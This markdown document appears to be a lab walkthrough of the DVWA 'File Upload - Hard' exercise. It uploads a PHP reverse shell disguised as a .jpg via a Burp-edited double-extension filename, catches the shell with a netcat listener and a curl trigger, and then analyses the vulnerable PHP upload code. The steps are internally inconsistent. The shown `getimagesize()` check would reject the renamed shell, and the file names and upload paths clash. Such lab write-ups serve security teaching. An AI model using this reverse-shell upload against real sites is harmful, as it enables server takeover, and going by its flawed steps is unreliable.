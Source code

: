 # File Upload - Hard

---

## Attack Steps

1. Open Burp Suite

    - Start a **temporary project**

2. Navigate to the proxy tab
    - Shortcut `CTRL + SHIFT + P`

3. Ensure the intercept is OFF 
    - Open the chromium browser

4. Navigate to DVWA and set difficulty to hard 

    - http://<ip address>/dvwa
    - Login
    ```bash 
    admin
    password
    ```
    - Navigate to DVWA Security on the left menu 
    - Set security level to hard

5. Navigate to the target webpage 
    - http://<ip address>/dvwa/vulnerabilites/upload

6. Make a copy of `php_reverse_shell.php` and save as a jpg file:

    - `CTRL + ATL + T` to open a terminal 

    ```bash 
    sudo cp /usr/share/webshells/php/php_reverse_shell.php php_reverse_shell.jpg
    ```

7. Prepare for upload:
    
    - Return to target page
    - Browse for `php_reverse_shell.jpg`
    - Select file 
    - DO NOT UPLOAD 

8. Turn intercept on 

    - On Burp Suite turn the intercept on to catch request

9. Upload file:

    - Request will be caught by Burp

10. Edit request in Burp Proxy: 
    
    - Scroll down to filename
    - Change from
    ```bash 
    filename="php_reverse_shell.jpg"
    ```
    - to:
    ```bash 
    filename="php_reverse_shell.php.jpg"
    ```
    
11. Forward the request

    - Turn intercept off

12. On the kali terminal start a listener 

    ```bash 
    nc -lvnp 1234 # If you changed the port number in the webshell file then change it here 
    # l - listener mode
    # v - verbose output 
    # n - skip DNS resolution (faster) 
    # p <port number> - Listen on port number assigned # Change to your port number
    ```

13. Navigate to the uploaded webshell 

    - The uploaded file was saved to http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php.jpg

    - Alternatively run `curl -s http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php.jpg` in another terminal 

14. On the netcat listener look a connection
    
    - The should be output similar to the following 
    ```bash 
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    sh: no job control in this shell 
    sh-3.2$ 
    ```

    - We can now run commands on the DVWA machine

## Vulnerable Code Analysis


### File 
`/var/www/dvwa/vulnerabilities/upload/source/hard`

#### Key Vulnerability Points:

```php 
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
	// Where are we going to be writing to?
	$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
	$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

	// File information
	$uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
	$uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
	$uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
	$uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

	// Is it an image?
	if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
		( $uploaded_size < 100000 ) &&
		getimagesize( $uploaded_tmp ) ) {

		// Can we move the file to the upload folder?
		if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
			// No
			$html .= '<pre>Your image was not uploaded.</pre>';
		}
		else {
			// Yes!
			$html .= "<pre>{$target_path} succesfully uploaded!</pre>";
		}
	}
	else {
		// Invalid file
		$html .= '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
	}
}

?>
```

### Explanation

- The code takes the uploaded file directly from the user and constructs the target path for saving the file:

    ```php
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename($_FILES['uploaded']['name']);
    ```

- It extracts file information including the filename, file extension, size, and temporary file path:

    ```php
    $uploaded_name = $_FILES['uploaded']['name'];
    $uploaded_ext  = substr($uploaded_name, strrpos($uploaded_name, '.') + 1);
    $uploaded_size = $_FILES['uploaded']['size'];
    $uploaded_tmp  = $_FILES['uploaded']['tmp_name'];
    ```

- The script validates the file by checking:

  - The file extension is one of `jpg`, `jpeg`, or `png` (case insensitive):

    ```php
    strtolower($uploaded_ext) == "jpg" || strtolower($uploaded_ext) == "jpeg" || strtolower($uploaded_ext) == "png"
    ```

  - The file size is less than 100,000 bytes.

  - The file is a valid image by using `getimagesize()` on the temporary file:

    ```php
    getimagesize($uploaded_tmp)
    ```

- If all validations pass, the file is moved to the upload directory:

    ```php
    move_uploaded_file($uploaded_tmp, $target_path)
    ```

- Success or failure messages are displayed based on whether the file was moved.

- If any validation fails, an error message is shown indicating only JPEG or PNG images are accepted.

### Causes:

- **Filename still not fully sanitised:** Using `basename()` only strips directory paths but doesn’t prevent dangerous filenames or double extensions (e.g., `shell.php.jpg`).

- **File saved with original name:** No renaming or randomisation, so potential overwriting and easier attacker targeting remain.

- **Upload directory is web accessible:** Uploaded files can still be accessed and potentially executed if a malicious file bypasses checks.

- **No checks against double extensions beyond extension extraction:** The script assumes the last extension is trustworthy.

